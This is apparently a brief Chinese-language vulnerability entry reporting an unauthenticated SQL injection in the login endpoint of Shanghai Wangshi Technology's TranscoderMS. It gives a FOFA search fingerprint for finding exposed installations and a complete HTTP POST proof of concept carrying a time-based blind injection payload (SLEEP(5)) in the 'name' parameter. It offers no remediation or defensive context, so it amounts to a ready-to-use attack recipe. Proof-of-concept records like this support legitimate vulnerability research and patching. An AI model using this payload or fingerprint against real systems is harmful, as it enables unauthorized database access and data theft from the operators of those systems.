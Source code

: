# 上海网仕科技TranscoderMS index存在SQL注入

上海网仕科技存在未授权访问sql漏洞，易造成信息泄露

## fofa
```
"webtrans//js/md5-min.js"
```

## poc
```javascript
POST /webtrans/index.php?controller=user&action=login HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

name=test111;') AND (SELECT 1 FROM (SELECT(SLEEP(5)))xSEI) AND ('aFKS'='aFKS&pass=MTExMTExMTExMTExMTExMTExMTExMTExMTEx&lang=zh_CN
```
